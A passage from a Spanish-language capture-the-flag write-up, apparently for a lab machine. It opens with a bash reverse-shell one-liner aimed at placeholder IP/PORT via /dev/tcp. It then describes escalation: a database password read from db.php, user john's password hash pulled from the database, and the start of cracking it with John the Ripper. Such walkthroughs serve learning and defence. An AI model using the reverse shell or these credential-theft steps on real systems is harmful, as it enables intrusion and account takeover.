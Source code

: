 ```bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```

---

# Escalada

Al acceder a la máquina víctima como el usuario **www-data**, lo primero que hice fue enumerar el archivo **db.php**, donde encontré una contraseña para acceder a la base de datos. Intenté iniciar sesión con el usuario **john** utilizando esa contraseña, pero no funcionó, lo que indicaba que no era su contraseña de acceso.  


<div style="text-align: center;">
	<img src="/assets/images/Europa/johnFakePass.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Pero con la cual si podria realizar login en la base de datos donde encontré lo que parecía ser el hash de la contraseña del usuario **john**.  


<div style="text-align: center;">
	<img src="/assets/images/Europa/johnHash.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Procedí a crackear la contraseña utilizando la herramienta **John the Ripper**.  
